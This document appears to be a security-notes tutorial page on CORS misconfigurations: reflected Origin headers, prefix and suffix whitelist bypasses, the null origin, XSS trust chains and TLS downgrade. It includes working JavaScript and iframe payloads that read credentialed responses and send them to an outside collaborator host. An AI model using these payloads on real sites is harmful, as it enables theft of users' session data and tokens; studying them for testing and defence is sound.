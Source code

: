 ```yaml
---
title: Cross-Origin Resource Sharing (CORS)
category: Web
order: 18
---
```


Cross-origin resource sharing (CORS) is a browser mechanism which enables controlled access to resources located outside of a given domain. It extends and adds flexibility to the same-origin policy (SOP). However, it also provides potential for cross-domain attacks, if a website's CORS policy is poorly configured and implemented. CORS is not a protection against cross-origin attacks such as cross-site request forgery (CSRF). 

# Vulnerabilities arising from CORS configuration issues

Many modern websites use CORS to allow access from subdomains and trusted third parties. Their implementation of CORS may contain mistakes or be overly lenient to ensure that everything works, and this can result in exploitable vulnerabilities. 

## Server-generated ACAO header from client-specified Origin header

Some applications need to provide access to a number of other domains. Maintaining a list of allowed domains requires ongoing effort, and any mistakes risk breaking functionality. So some applications take the easy route of effectively allowing access from any other domain. 

One way to do this is by reading the Origin header from requests and including a response header stating that the requesting origin is allowed. For example, consider an application that receives the following request: 

```
GET /sensitive-victim-data HTTP/1.1
Host: vulnerable-website.com
Origin: https://malicious-website.com
Cookie: sessionid=...
```

It then responds with

```
HTTP/1.1 200 OK
Access-Control-Allow-Origin: https://malicious-website.com
Access-Control-Allow-Credentials: true
...
```

These headers state that access is allowed from the requesting domain (`malicious-website.com`) and that the cross-origin requests can include cookies (`Access-Control-Allow-Credentials: true`) and so will be processed in-session. 

If the response contains any sensitive information such as an API key or CSRF token, we can retrieve this with the following script:

```js
var req = new XMLHttpRequest();
req.onreadystatechange = function() {
	if (req.readyState == XMLHttpRequest.DONE){
		fetch("https://burpcollaborator.com/log?key=" + req.responseText)
	}
}

req.open('GET','https://example.com/accountDetails',true);
req.withCredentials = true;
req.send(null);
```
```js
var req = new XMLHttpRequest();
req.onload = reqListener;
req.open('get','https://example.com/accountDetails',true);
req.withCredentials = true;
req.send();

function reqListener() {
location='https://burpcollaborator.com/log?key='+this.responseText;
};
```
## Errors parsing Origin headers

Some applications that support access from multiple origins do so by using a whitelist of allowed origins.

The application checks the supplied origin against its list of allowed origins and, if it is on the list allows the connection.

They can create some rules that can be bypassed:

* **Starts With**: Suppose an application grants access to all domains beginning with `example.com`. We can use `example.com.evil.com`
* **Ends With**: Suppose an application grants access to all domains ending in `example.com`. We can buy a domain something like `evil-example.com`.

## Whitelisted null origin value

The specification for the Origin header supports the value null. Browsers might send the value null in the Origin header in various unusual situations:

* Cross-origin redirects.
* Requests from serialized data.
* Request using the `file:`` protocol.
* Sandboxed cross-origin requests.

Some applications might whitelist the `null` origin to support local development of the application.

```
GET /sensitive-victim-data
Host: vulnerable-website.com
Origin: null
```

Example of payload to get the `null` origin value using a `iframe`:

```html
<iframe sandbox="allow-scripts allow-top-navigation allow-forms" src="data:text/html,<script>
var req = new XMLHttpRequest();
req.onload = reqListener;
req.open('get','https://example.com/accountDetails',true);
req.withCredentials = true;
req.send();

function reqListener() {
location='https://burpcollaborator.com/log?key='+this.responseText;
};
</script>"></iframe>
```

## Exploiting XSS via CORS trust relationships

Even "correctly" configured CORS establishes a trust relationship between two origins. If a website trusts an origin that is vulnerable to cross-site scripting (XSS), then an attacker could exploit the XSS to inject some JavaScript that uses CORS to retrieve sensitive information from the site that trusts the vulnerable application.

```
https://subdomain.vulnerable-website.com/?xss=<script>cors-stuff-here</script>
```

## Breaking TLS with poorly configured CORS

Suppose an application that rigorously employs HTTPS also whitelists a trusted subdomain that is using plain HTTP. An attacker who is in a position to intercept a victim user's traffic can exploit the CORS configuration to compromise the victim's interaction with the application. This attack involves the following steps: 

* The victim user makes a play HTTP request.
* The attacker injects a redirection to: `http://trusted-subdomain.vulnerable-website.com`.
* The victim's browser follows the redirect.
* The attacker intercepts that plain HTTP request and returns a spoofed response containing a CORS request to `https://vulnerable-website.com`.
* The victim's browser makes the CORS request including the origin `http://trusted-subdomain.vulnerable-website.com`
* The application allows the request because this is a whitelisted origin. The requested sensitive data is returned in the response.
* The attacker's spoofed page can read the sensitive data and transmit it to any domain under the attacker's control. 

This attack is effective even if the vulnerable website is otherwise robust in its usage of HTTPS, with no HTTP endpoint and all cookies flagged as secure. 
